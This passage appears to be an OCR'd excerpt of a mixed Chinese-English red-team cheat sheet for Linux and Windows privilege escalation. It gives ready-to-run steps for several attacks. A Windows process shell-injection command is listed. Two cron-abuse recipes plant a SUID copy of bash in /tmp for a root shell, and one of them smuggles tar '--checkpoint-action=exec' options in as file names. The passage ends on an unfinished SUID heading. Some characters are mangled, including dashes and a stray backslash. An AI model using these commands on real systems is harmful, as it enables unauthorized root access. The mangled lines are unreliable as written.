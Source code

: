 Local Admin: Yes

操作系统: Windows

类型: Injection

方法:

1.  `sec-shinject PID /path/to/bin`

  

批注：未找到

### **Abusing Scheduled Tasks via Cron Path Overwrite**

域：No

Local Admin: Yes

操作系统: Linux

类型: Abusing Scheduled Tasks

方法:

1.  `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > systemupdate.sh;`
2.  `chmod +x systemupdate.sh`
3.  `等待一会儿`
4.  `/tmp/bash -p`
5.  `id && whoami`

### **Abusing Scheduled Tasks via Cron Wildcards**

域：No

Local Admin: Yes

操作系统: Linux

类型: Abusing Scheduled Tasks

方法:

1.  `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/systemupdate.sh;`
2.  `touch /home/user/ –checkpoint=1;`
3.  `touch /home/user/ –checkpoint-action=exec=sh\systemupdate.sh`
4.  `等待一会儿`
5.  `/tmp/bash -p`
6.  `id && whoami`

### **Abusing File Permission via SUID Binaries – Symlink)**

域：No

Local Admin: Yes

操作系统: Linux

类型: Abusing File Permission
